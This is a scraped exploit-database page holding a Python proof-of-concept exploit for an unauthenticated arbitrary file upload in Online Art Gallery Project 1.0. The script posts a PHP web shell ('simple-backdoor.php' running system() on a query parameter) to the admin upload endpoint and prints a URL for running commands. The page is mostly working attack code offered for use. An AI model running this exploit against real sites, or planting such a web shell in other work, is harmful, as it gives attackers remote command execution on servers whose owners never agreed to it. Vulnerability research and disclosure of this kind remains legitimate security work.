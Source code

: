 ```yaml
---
title: Online Art Gallery Project 1.0 Arbitrary File Upload exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172936&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-17
fetch_date: 2025-10-04T11:44:31.828542
---
```


# Online Art Gallery Project 1.0 Arbitrary File Upload exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Online Art Gallery Project 1.0 Arbitrary File Upload

2023-06-16 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172936
# Exploit Title: Online Art gallery project 1.0 - Arbitrary File Upload (Unauthenticated)
# Google Dork: n/a
# Date: 14/06/2023
# Exploit Author: Ramil Mustafayev
# Vendor Homepage: https://github.com/projectworldsofficial
# Software Link: https://github.com/projectworlds32/Art-Gallary-php/archive/master.zip
# Version: 1.0
# Tested on: Windows 10, XAMPP for Windows 8.0.28 / PHP 8.0.28
# CVE : n/a

# Vulnerability Description:
#
# Online Art Gallery Project 1.0 allows unauthenticated users to perform arbitrary file uploads via the adminHome.php page. Due to the absence of an authentication mechanism and inadequate file validation, attackers can upload malicious files, potentially leading to remote code execution and unauthorized access to the server.
# Usage: python exploit.py http://example.com

import requests
import sys

def upload_file(url, filename, file_content):
files = {
'sliderpic': (filename, file_content, 'application/octet-stream')
}

data = {
'img_id': '',
'sliderPicSubmit': ''
}
url = url+"/Admin/adminHome.php"
try:
response = requests.post(url, files=files, data=data)
except:
print("[!] Exploit failed!")

if __name__ == "__main__":
if len(sys.argv) < 2:
print("Usage: python exploit.py <target_url>")
sys.exit(1)

target_url = sys.argv[1]
file_name = "simple-backdoor.php"
file_content = '<?php system($_GET["c"]);?>'

upload_file(target_url, file_name, file_content)
print("[+] The simple-backdoor has been uploaded.\n Check following URL: "+target_url+"/images/Slider"+file_name+"?c=whoami")
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)